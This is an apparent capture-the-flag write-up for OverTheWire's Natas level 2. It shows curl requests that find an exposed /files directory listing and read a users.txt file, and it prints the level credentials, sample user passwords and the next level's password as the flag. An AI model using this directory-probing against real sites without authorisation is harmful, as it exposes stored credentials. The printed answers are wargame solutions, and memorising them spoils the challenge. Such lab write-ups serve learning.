 ```yaml
---
layout: level
level: 2
previous: ./level 01.html
next: ./level 03.html
---
```


# soal
Username: natas2 \
URL:      http://natas2.natas.labs.overthewire.org \

# solve
- login with cred natas2:TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI
- inspect the web, view-source:<url>, or curl
```bash
curl http://natas2.natas.labs.overthewire.org -u natas2:TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI
# <div id="content">
# There is nothing on this page
# <img src="files/pixel.png">
# </div>
```
- in this, have the directory listing /files
![alt text](docs/images/image-1.png)
![alt text](docs/images/image-2.png)
- if ur curl
```bash
curl http://natas2.natas.labs.overthewire.org/files/users.txt -u natas2:TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI
# username:password
# alice:BYNdCesZqW
# bob:jw2ueICLvT
# charlie:G5vCxkVV3m
# natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
# eve:zo4mJWyNj2
# mallory:9urtcpzBmH
```

# flag
3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH